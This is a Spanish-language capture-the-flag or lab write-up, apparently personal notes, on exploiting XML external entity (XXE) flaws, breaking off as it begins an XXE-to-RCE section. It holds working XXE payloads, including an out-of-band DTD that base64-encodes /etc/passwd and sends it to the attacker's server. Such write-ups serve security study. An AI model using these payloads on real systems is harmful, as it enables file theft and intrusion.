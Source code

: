 ----------------
#### XXE - External Entities
Sin embargo, es probable que la explotación de esto este ocurriendo a ciegas. **Port Swigger** nos brinda otro **Payload** para verificar si este se esta aconteciendo o no:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.10.14.30"> ]>
<test>&xxe;</test>
```

Por otro lado, nos montamos un servidor con **Python** en busca de obtener una respuesta a la hora de mandar el **Payload**. Al mandarlo, podemos ver que recibimos efectivamente una petición del servidor web:
![[Pasted image 20230811211742.png]]

----------
#### XXE - XML Parameter Entities 

Bien, nos podemos aprovechar de esto para enviarnos la data a nuestro servidor a través del **XXE**. Esto, haciendo uso de parametros como lo veremos a continuación:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.10.130/pwned.xml" %xxe; %param1; ]>
<test>&filename;</test>
```

--------------
####  XXE - Blind SSRF (Exfiltrate data out-of-band) + Base64 Wrapper [Reading Internal Files]  
Y de nuestro lado, tendriamos que crear un archivo de nombre **pwned.xml** con la siguiente estructura en **xml**:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY filename SYSTEM 'http://10.10.10.130/%file;'>">
```

Ahora, al tramitar la petición, lo que sucedera internamente es que el servidor va a buscar por nuestro archivo **.xml**  el cual dentro contendra una entidad de nombre **file** la cual buscara por el archivo **/etc/passwd** y lo convertira a base64, posteriormente la entidad **param1** contendra dentro de ella otra entidad de nombre **filename** (esta entidad corresponde a la que definimos en el archivo **.xml** a tramitar.) la cual se encargara de mandarnos a nuestro servidor el archivo definido en la entidad **file**.
Como resultado, tendriamos que ver una petición a nuestro servidor el cual contendra el **/etc/passwd** en el formato **base64**:
![[Pasted image 20230811214810.png]]

-----------
#### XXE + RFI (Remote File Inclusion) / SSRF to RCE 
Vamos aprovecharnos del **XXE** para ejecutar comandos a través de un **RFI** el cual se aprovechara de la pagina que se aloja en el puerto **:4**, esta tiene el un parametro por **GET** de nombre **page** la cual a punta a archivos locales de la pagina, sin embargo, al intentar un **RFI** desde nuestro lado, no nos tramita la petición, esto puede deberse, entre tantas, a una sanitización del codigo **PHP** que no permite ejecutar la consulta a **terceros.**
